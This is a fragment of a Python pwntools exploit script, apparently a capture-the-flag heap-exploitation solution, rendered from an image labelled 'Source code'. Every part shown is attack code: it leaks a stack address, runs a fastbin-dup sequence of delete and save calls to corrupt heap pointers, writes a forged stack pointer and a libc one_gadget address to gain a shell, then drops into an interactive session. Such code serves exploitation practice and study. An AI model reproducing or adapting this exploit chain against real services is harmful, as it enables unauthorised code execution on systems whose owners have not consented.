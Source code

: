 ``` python
    stack = u64(r.split(b"1111 --> ")[1][:6] + b"\x00\x00") - 0x110
    log.info(f"stack : {hex(stack)}")

    # fastbin dup
    delete(s, b"5")
    delete(s, b"6")

    save(s, 0x60, b"FFFF", b"5555")
    save(s, 0x60, b"GGGG", b"6666")
    save(s, 0x60, b"HHHH", b"7777")
    pause()

    delete(s, b"6")
    save(s, 0x60, b"GGGG", b"6" * 0x20 + b"\xd0\xd1")
    
    delete(s, b"5")
    delete(s, b"6")
    delete(s, b"7")
    
    payload = p64(stack - 0xa3)
    save(s, 0x60, payload, b"5555")
    save(s, 0x60, b"GGGG", b"6666")
    save(s, 0x60, payload, b"7777")
    
    delete(s, b"0")
    one_gadget = 0xe1fa1
    payload = b"A" * 0x13
    payload += p64(libc + one_gadget)
    save(s, 0x68, payload, b"0000", fin = 1)

    s.interactive()

if __name__=='__main__':
    parser = ArgumentParser()
    parser.add_argument('-p', '--port', type=int)
    parser.add_argument('-d', '--debug', type=int, default=1)
    args = parser.parse_args()
    main(args.port, args.debug)
```